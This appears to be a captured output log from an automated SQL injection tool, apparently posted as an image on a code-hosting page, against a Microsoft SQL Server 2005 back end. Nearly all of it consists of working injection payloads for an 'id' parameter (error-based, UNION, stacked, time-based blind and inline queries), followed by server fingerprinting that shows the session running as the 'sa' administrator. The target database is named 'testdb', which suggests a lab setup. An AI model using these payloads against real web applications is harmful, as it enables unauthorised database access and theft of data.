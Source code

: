 ```
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause
    Payload: id=1 AND 4847=CONVERT(INT,(CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) (SELECT (CASE WHEN (4847=4847) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58)))
 
    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) CHAR(70) CHAR(79) CHAR(118) CHAR(106) CHAR(87) CHAR(101) CHAR(119) CHAR(115) CHAR(114) CHAR(77) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58)--
 
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries
    Payload: id=1; WAITFOR DELAY '0:0:5'--
 
    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind
    Payload: id=1 WAITFOR DELAY '0:0:5'--
 
    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: id=(SELECT CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) (SELECT (CASE WHEN (6382=6382) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58))
---
web server operating system: Windows XP
web application technology: ASP, Microsoft IIS 5.1
back-end DBMS operating system: Windows XP Service Pack 2
back-end DBMS: Microsoft SQL Server 2005
banner:
---
Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86)
    Oct 14 2005 00:33:37
    Copyright (c) 1988-2005 Microsoft Corporation
    Express Edition on Windows NT 5.1 (Build 2600: Service Pack 2)
---
current user:    'sa'
current database:    'testdb'
current user is DBA:    True
 
[*] shutting down at 11:25:52
```
